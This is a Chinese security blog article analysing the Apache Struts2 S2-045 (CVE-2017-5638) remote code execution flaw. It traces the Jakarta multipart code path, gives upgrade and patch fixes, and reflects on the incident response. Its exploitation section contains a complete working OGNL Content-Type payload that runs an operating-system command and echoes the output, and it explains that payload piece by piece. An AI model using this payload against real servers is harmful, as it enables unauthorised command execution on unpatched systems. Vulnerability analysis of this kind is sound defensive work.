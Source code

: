 > 原文链接: https://www.anquanke.com//post/id/85674 


# 【漏洞分析】S2-045：Apache Struts2 远程代码执行（RCE）漏洞分析


                                阅读量   
                                **268502**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            





[![](https://p2.ssl.qhimg.com/t01a6f34a22f820e327.png)](https://p2.ssl.qhimg.com/t01a6f34a22f820e327.png)

作者：[xiaodingdang](http://bobao.360.cn/member/contribute?uid=291519525)

预估稿费：300RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



****

传送门

[](http://bobao.360.cn/learning/detail/3574.html)

[**【漏洞分析】Struts2-045分析（CVE-2017-5638）******](http://bobao.360.cn/learning/detail/3587.html)

[【漏洞分析】S2-045 原理初步分析（CVE-2017-5638）](http://bobao.360.cn/learning/detail/3574.html)

[【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）](http://bobao.360.cn/learning/detail/3571.html)

**<br>**

**0x00 前言**



本文主要是对Apache Struts2（S2-045）漏洞进行原理分析。

Apache Struts2使用的Jakarta Multipart parser插件存在远程代码执行漏洞。可以通过构造Content-Type值进行触发漏洞，造成远程执行代码。影响Struts2版本 Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10

<br>

**0x01 漏洞公布**



大概是北京时间2017年3月6号晚上10点apache发布了S2-045预警公告

详情：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045) 

随后能够得到补丁信息：

[https://github.com/apache/struts/commit/6b8272ce47160036ed120a48345d9aa884477228](https://github.com/apache/struts/commit/6b8272ce47160036ed120a48345d9aa884477228) 

通过apache漏洞公告和补丁信息，可以得到：

1.漏洞发生在 Jakarta 上传解析器

2.受影响struts版本是Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10

3.通过Content-Type这个header头，进而执行命令，通过Strus2对错误消息处理进行回显。

<br>

**0x02 漏洞分析**

Struts2默认处理multipart报文的解析器是jakarta

```
&lt;bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta" class="org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest" scope="prototype"/&gt;
&lt;bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta-stream" class="org.apache.struts2.dispatcher.multipart.JakartaStreamMultiPartRequest" scope="prototype"/&gt;
```

    JakartaMultiPartRequest.java 的buildErrorMessage函数中localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行

[![](https://p3.ssl.qhimg.com/t01cb905b2deac0bd27.png)](https://p3.ssl.qhimg.com/t01cb905b2deac0bd27.png)

**    那么总的流程是什么呢？**

    首先会在执行请求前做一些准备工作在PrepareOpertions.java中,包括通过wrapRequest的封装请求。

[![](https://p5.ssl.qhimg.com/t015a8b450f47668204.png)](https://p5.ssl.qhimg.com/t015a8b450f47668204.png)

    随后对Content-Type头部进行判断，当存在"multipart/form-data"的时候，会通过mpr，给每个请求返回一个新的实例，保证线程安全，同时交给MultipartRequest类处理

[![](https://p2.ssl.qhimg.com/t0111e5a9d753d1a75f.png)](https://p2.ssl.qhimg.com/t0111e5a9d753d1a75f.png)

    通过getSaveDir(),来获取保存上传路径

[![](https://p3.ssl.qhimg.com/t01cc8add7aec194b0a.png)](https://p3.ssl.qhimg.com/t01cc8add7aec194b0a.png)

    MultiPartRequestWrapper类通过获取如下参数，来对收集错误信息，文件信息和默认的本地配置进行封装返回。

[![](https://p2.ssl.qhimg.com/t01d401e72aa15efd0d.png)](https://p2.ssl.qhimg.com/t01d401e72aa15efd0d.png)

    漏洞发生在MultiPartRequestWrapper会通过调用JakartaMultiPartRequest.java的parse进行解析请求

[![](https://p4.ssl.qhimg.com/t01adcef6b98f0b66f7.png)](https://p4.ssl.qhimg.com/t01adcef6b98f0b66f7.png)

    parse函数又会调用buildErrotMessage()方法

[![](https://p5.ssl.qhimg.com/t0102af2252f9273515.png)](https://p5.ssl.qhimg.com/t0102af2252f9273515.png)

      而buildErrorMessage()方法又调用了LocalizedTextUtil的findText方法，导致了ONGL的执行。

[![](https://p5.ssl.qhimg.com/t01efcdd3138d9ede50.png)](https://p5.ssl.qhimg.com/t01efcdd3138d9ede50.png)

<br>

**0x03 漏洞利用**

通过构造content-Type来实现利用

```
Content-Type:"%`{`(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())`}`"
```

 xxx='multipart/form-data'主要是让struts程序content_type.contains(“multipart/form-  data”)判断为true

```
#container=#context['com.opensymphony.xwork2.ActionContext.container']
来获取上下文容器
```

```
#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class  
通过容器实例化，对Ognl API的通用访问，设置和获取属性。
```

```
#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd `}`)
判断目标主机的操作系统类型，并进行执行命令赋值
```

```
#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
执行攻击命令
```

<br>

**0x04 漏洞修复**

1. 可升级版本到Apache Struts 2.3.32或者Apache struts 2.5.10.1

2.官方补丁

[https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b](https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b)

随笔感想：

这么严重的安全事件，在3月7号早上poc和exp就被泄露出来了，可以说给企业留给应急的时间很短，一时间无数人通过搜索引擎去利用s2-045进行利用，根据受影响的站点，政府和学校应该是受影响最大的组织。引用heige话一时间如同蝗虫般侵袭着网站，但是让人欣慰的是国家对于安全问题越来越重视，近几年在安全方面投入的加大，各公司的安全应急做的很快，尤其是互联网公司。基本3月8号晚上基本都完成了对s2-045漏洞的修复。

**这里面我觉得有几个方面原因：**

1.     国内存在着像补天，漏洞盒子等这样的漏洞收集平台（据说审核人员这次一晚上审核上千个漏洞），对于漏洞通报，快速响应至关重要，最让人眼前一亮的是还在beta测试阶段的教育行业漏洞报告平台([https://src.edu-info.edu.cn/](https://src.edu-info.edu.cn/)  )，可以说对于学校处理s2-045漏洞发挥了很大的作用。

[![](https://p5.ssl.qhimg.com/t011942b8092558bf68.png)](https://p5.ssl.qhimg.com/t011942b8092558bf68.png)

2.     国内对于安全的重视，安全人员的培养，安全行业的宣传，使更多人和大学生接触到了安全行业，这才导致了大量的人员去平台提交漏洞，大部分安全从业者还是懂法，具有道德底线的，知道什么事可以干，什么事不行。

3.     随着国内安全行业的发展，涌现了一批从事安全专业公司包括bat3，不管是安全服务还是安全设备防护等等，极大的提高了企业的安全防护能力和安全意识。

最后，我觉得从这次事件可以看出，国内对于重大安全事件的应急响应能力有了质的飞跃。

<br>



传送门

[](http://bobao.360.cn/learning/detail/3574.html)

[**【漏洞分析】Struts2-045分析（CVE-2017-5638）**](http://bobao.360.cn/learning/detail/3587.html)

[【漏洞分析】S2-045 原理初步分析（CVE-2017-5638）](http://bobao.360.cn/learning/detail/3574.html)

[【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）](http://bobao.360.cn/learning/detail/3571.html)

<br>
